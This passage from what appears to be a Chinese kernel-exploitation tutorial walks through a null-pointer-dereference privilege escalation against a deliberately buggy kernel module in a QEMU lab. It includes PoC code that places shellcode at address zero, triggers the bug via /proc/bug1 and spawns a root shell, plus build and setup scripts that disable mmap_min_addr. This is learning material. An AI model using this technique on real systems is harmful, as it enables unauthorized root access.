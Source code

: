```C
    memcpy(0, payload, sizeof(payload));
    int fd = open("/proc/bug1", O_WRONLY);
    write(fd, "fanda", 5);
    system("/bin/sh");
    return 0;
}
```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>当执行这个程序的时候，内存分布图是这样的</font>：</br>

![mmap](https://raw.githubusercontent.com/fangdada/kernelPWN/master/how2kernel/01null_dereference/001.jpg)

- mmap映射了最低处内存0的大小为0x1000的一块内存（并不是物理地址，是虚拟地址）；
- 在这块内存上布置了shellcode；
- 打开了之前创建的内核模块后调用write与之交互触发write_proc函数也就是我们之前设置为的bug1_write；
- null dereference访问到了mmap的内存处，执行了我们的shellcode。

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>最终内存分布图是这样的：</font></br>

![shellcode](https://raw.githubusercontent.com/fangdada/kernelPWN/master/how2kernel/01null_dereference/002.jpg)

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>我的Makefile:</font></br>

```makefile
obj-m := null_dereference.o  

KERNELDR := /home/fanda/Desktop/file/linux-2.6.32.1
BUSYDIR  := /home/fanda/Desktop/file/busybox-1.29.3/_install/mytest
PWD := $(shell pwd)  

modules:  
	$(MAKE) -C $(KERNELDR) M=$(PWD) modules  
	gcc -o poc poc.c -static
	cp *.ko $(BUSYDIR)
	cp poc $(BUSYDIR)
	cd $(BUSYDIR)/../ && find . | cpio -o --format=newc > ../rootfs.img
clean:  
	rm -rf *.o *~ core .depend .*.cmd *.ko *.mod.c .tmp_versions

```



&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>然后我们在qemu虚拟机里创建用户进行测试，为了避免麻烦我们直接写一个脚本（makeuser.sh）用来安装模块创建用户，并重新用cpio生成文件镜像：</font></br>

```shell
#!/bin/sh

insmod *.ko
mkdir -p /home/fanda
touch /etc/passwd
touch /etc/group
adduser fanda

sysctl -w vm.mmap_min_addr="0"
su fanda

```
